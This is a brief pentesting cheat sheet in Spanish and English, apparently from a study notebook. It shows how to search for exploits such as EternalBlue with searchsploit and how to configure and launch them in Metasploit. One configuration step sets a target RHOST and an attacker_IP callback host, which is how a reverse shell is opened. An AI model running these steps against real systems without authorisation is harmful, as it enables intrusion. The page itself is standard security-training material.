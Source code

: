 # Search Exploits

## EXPLOTATION

* Buscar en searchsploit

{% code overflow="wrap" %}
```bash
searchsploit <eternal blue>     # Búsqueda
searchsploit -m <código del exploit>    #Ver info y copiar
nano <ruta del exploit copiado>       #editar o ver script
```
{% endcode %}

* msfconsole search exploit and config

{% code overflow="wrap" %}
```bash
search <eternal blue>     # búsqueda de exploit
use 0                     # usar el exploit según su número id
use <nombre_completo>     # usar exploit según su nombre

show options              # muestra opciones a configurar en el exploit

#Configuraciones
set RHOST <ip>
set RPORT <port>
set LHOST <attacker_IP>
set LPORT <attacker_PORT>

#Colocar otros payloads
show payloads
use <payload>

#ejecutar
run
exploit
```
{% endcode %}

